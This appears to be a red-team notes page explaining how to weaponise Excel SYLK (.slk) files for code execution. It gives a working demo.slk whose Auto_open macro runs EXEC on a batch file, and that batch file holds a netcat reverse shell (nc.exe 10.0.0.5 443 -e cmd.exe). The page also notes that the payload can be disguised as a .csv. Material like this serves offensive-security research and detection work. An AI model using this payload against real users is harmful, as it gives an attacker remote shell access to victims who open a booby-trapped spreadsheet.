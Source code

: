 # ⭕ .SLK Excel

{% embed url="https://www.avanan.com/blog/sylkin-attack-bypassing-microsoft-365-security-risking-users" %}

{% embed url="https://youtu.be/xY2DIRfqNvA" %}

{% embed url="http://www.irongeek.com/i.php?page=videos%2Fderbycon8%2Ftrack-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen" %}



Create an new text file, put the the below code and save it as .slk file:

{% code title="demo.slk" %}
```vba
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
{% endcode %}

![](<../../.gitbook/assets/image (317).png>)

Note that the shell.cmd refers to a simple nc reverse shell batch file:

{% code title="c:\shell.cmd" %}
```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Once the macro warning is dismissed, the reverse shell pops as expected:

![](<../../.gitbook/assets/image (39).png>)

Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

Note that the payload file could be saved as a .csv - note the additional warning though:

![](<../../.gitbook/assets/image (150).png>)
